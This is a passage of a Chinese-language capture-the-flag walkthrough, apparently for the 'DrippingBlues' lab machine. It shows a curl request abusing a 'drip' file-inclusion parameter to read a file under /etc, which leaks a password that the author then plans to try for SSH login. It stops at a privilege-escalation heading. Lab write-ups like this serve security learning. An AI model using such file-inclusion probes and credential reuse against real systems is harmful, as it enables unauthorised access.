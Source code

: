 成功发现drip参数，突然发现刚好是`respectmydrip.txt`文件中的提示信息。。。

使用drip参数访问一下`/etc/dripispowerful.html`文件：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tools/scan/wfuzz]
└─$ curl http://172.16.86.144/index.php?drip=/etc/dripispowerful.html
<!DOCTYPE html>
<html>
<body>
<style>
body {
background-image: url('drippin.jpg');
background-repeat: no-repeat;
}

@font-face {
    font-family: Segoe;
    src: url('segoeui.ttf');
}

.mainfo {
  text-align: center;
  border: 1px solid #000000;
  font-family: 'Segoe';
  padding: 5px;
  background-color: #ffffff;
  margin-top: 300px;
}

.emoji {
	width: 32px;
	}
</style>
password is:
imdrippinbiatch
</body>
</html>

<html>
<body>
driftingblues is hacked again so it's now called drippingblues. :D hahaha
<br>
by
<br>
travisscott & thugger
</body>
</html>
```

其中有一个password，接下来就用这个password和之前的两个用户名去尝试ssh登录。

## 4. Privilege Escalation
